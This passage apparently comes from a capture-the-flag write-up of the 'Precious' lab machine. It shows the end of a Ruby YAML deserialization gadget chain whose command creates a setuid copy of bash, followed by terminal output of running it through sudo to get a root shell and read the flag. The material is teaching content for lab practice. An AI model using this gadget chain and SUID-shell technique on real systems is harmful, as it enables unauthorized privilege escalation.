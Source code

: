              socket: &1 !ruby/object:Gem::RequestSet
                 sets: !ruby/object:Net::WriteAdapter
                     socket: !ruby/module 'Kernel'
                     method_id: :system
                 git_set: cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf
             method_id: :resolve



After I run this, there's a file at `/tmp/0xdf`:



    henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
    sh: 1: reading: not found
    Traceback (most recent call last):
            33: from /opt/update_dependencies.rb:17:in `<main>'
    ...[snip]...
    henry@precious:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1234376 May 17 22:05 /tmp/0xdf



Running with `-p` gives a shell with effective UID and GID as root:



    henry@precious:/dev/shm$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)



And I can claim `root.txt`:



    0xdf-5.1# cat root.txt
    0bc3cc28************************



## Beyond Root - Precious Web Server

### Goals

I was able to figure out that it's a Ruby webserver behind nginx during
enumeration. In exploring, I'll want to figure out some foundational
stuff about the webserver:

-   How nginx is hosting the app and how it's redirecting to
    `precious.htb`;
-   How the Ruby web app runs;
-   What the Ruby web app does;
-   Why it fails to get the local web page and export it.

### Exploration

I'll go through these in [this
video](https://www.youtube.com/watch?v=Pmdx0e6aRxU):
